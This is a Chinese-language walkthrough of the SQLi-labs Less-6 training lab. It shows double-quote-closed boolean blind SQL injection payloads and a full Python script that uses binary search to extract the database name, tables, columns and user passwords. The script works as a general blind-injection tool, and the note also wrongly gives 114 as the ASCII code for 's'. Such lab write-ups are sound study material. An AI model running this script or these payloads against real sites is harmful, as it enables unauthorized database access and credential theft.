

# Less-6 关于"闭合 报错注入/布尔盲注/时间盲注

**?id=1 正常**
**?id=1" 报错**

**?id=1" --+** **正常**


**关于"闭合**

这里利用**布尔盲注**：
**也就是错误和正确页面有区别**
- 判断数据库长度
```sql
?id=1" and length(database())
```
?id=1" and length(database())<=9 --+  #正常回显，数据库长度为8


- 判断数据库名中字母

select substr(database(),1,1);

- 截取数据库库名，从第1个字开始截取，每次截取1个

select ascii(substr(database(),1,1));

- 截取出来的字，使用ascii码编码

select ascii(substr(database(),1,1)) < 100;

所以

?id=1" and ascii(substr(database(),1,1))>114 --+

?id=1" and (select ascii(substr(database(),1,1))) >114 --+也行


 所以库名第一个字母的ascii编码为114  ——s
 ---
 用脚本跑
 ```python
import requests

import time

  

# -------------------------- 配置区 --------------------------

url = "http://ip/Less-6/"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"}

timeout = 5

# 双引号闭合（Less-6专用）

quote = '"'

# -----------------------------------------------------------

  

# 自动判断页面特征

print("🔍 正在自动判断Less-6页面特征...")

response_true = requests.get(url + f"?id=1{quote} and 1=1--+", headers=headers, timeout=timeout)

response_false = requests.get(url + f"?id=1{quote} and 1=2--+", headers=headers, timeout=timeout)

  

true_keyword = "You are in"

if true_keyword in response_true.text and true_keyword not in response_false.text:

    print(f"✅ 使用关键词 '{true_keyword}' 作为判断条件")

    def is_true(resp):

        return true_keyword in resp.text

else:

    print(f"✅ 使用页面长度作为判断条件")

    length_true = len(response_true.text)

    def is_true(resp):

        return len(resp.text) == length_true

  

# 二分法布尔盲注核心函数（速度提升10倍）

def boolean_blind(sql):

    result = ""

    for i in range(1, 33):  # 最多32个字符

        low = 32

        high = 126

        mid = (low + high) // 2

        found = False

        while low <= high:

            payload = f"?id=1{quote} and ascii(substr(({sql}),{i},1))>{mid}--+"

            try:

                resp = requests.get(url + payload, headers=headers, timeout=timeout)

                if is_true(resp):

                    low = mid + 1

                else:

                    high = mid - 1

                mid = (low + high) // 2

            except Exception as e:

                print(f"\n请求出错：{e}，重试中...")

                time.sleep(0.5)

                continue

        if low == 32:  # 到达字符串末尾

            break

        char = chr(low)

        result += char

        print(f"\r读取到字符：{char} | 当前结果：{result}", end="", flush=True)

    return result

  

# 开始爆破

print("\n\n🚀 开始爆破Less-6数据库...")

database = boolean_blind("select database()")

print(f"\n\n✅ 数据库名：{database}")

  

print("\n📋 开始爆破表名...")

tables = []

for i in range(4):  # security数据库有4个表

    table = boolean_blind(f"select table_name from information_schema.tables where table_schema='{database}' limit {i},1")

    tables.append(table)

    print(f"\n✅ 第{i+1}个表：{table}")

  

print("\n🔑 开始爆破users表列名...")

columns = []

for i in range(3):  # users表有3个列

    column = boolean_blind(f"select column_name from information_schema.columns where table_schema='{database}' and table_name='users' limit {i},1")

    columns.append(column)

    print(f"\n✅ 第{i+1}个列：{column}")

  

print("\n💾 开始爆破用户数据...")

print("="*50)

for i in range(5):  # 爆破前5个用户

    username = boolean_blind(f"select username from users limit {i},1")

    password = boolean_blind(f"select password from users limit {i},1")

    print(f"\n用户{i+1}：{username} | 密码：{password}")

  

print("\n" + "="*50)

print("🎉 Less-6 布尔盲注通关完成！")
 ```
 